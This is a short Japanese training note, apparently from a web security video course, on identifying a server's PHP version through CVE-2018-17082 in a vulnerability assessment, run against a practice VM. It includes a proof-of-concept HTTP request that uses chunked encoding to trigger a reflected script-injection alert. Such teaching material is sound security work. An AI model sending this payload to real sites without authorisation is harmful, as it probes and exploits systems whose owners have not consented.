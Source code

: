 # 脆弱性診断:CVE-2018-17082を用いてPHPのバージョンを特定する

- 本日お伝えしたいこと
  - ソフトウェアの脆弱性を用いたバージョン特定の方法
  - バージョン特定した結果を脆弱性診断に活用する方法

- 前提となる環境
  - 徳丸本VM
  - OWASP ZAP (Burp Suite等でも可）

# PoC

```
GET /hello.php HTTP/1.1
Host: example.com
Transfer-Encoding: chunked
Content-Length: 34

<script>alert('Hacked')</script>
```

# 参考記事

- [PHPの脆弱性CVE-2018-17082はApacheの脆弱性CVE-2015-3183を修正したら発現するようになったというお話](https://blog.tokumaru.org/2020/05/phpcve-2018-17082apachecve-2015-3183.html)
- [Red Hat Customer Portal | CVE-2018-17082](https://access.redhat.com/security/cve/CVE-2018-17082)
- [1243887 – (CVE-2015-3183) CVE-2015-3183 httpd: HTTP request smuggling attack against chunked request parser](https://bugzilla.redhat.com/show_bug.cgi?id=1243887)


動画URL : 

YouTubeチャンネル　[徳丸浩のウェブセキュリティ講座](https://www.youtube.com/channel/UCLNW6Bo_YU3TxnzsII2gEDA)
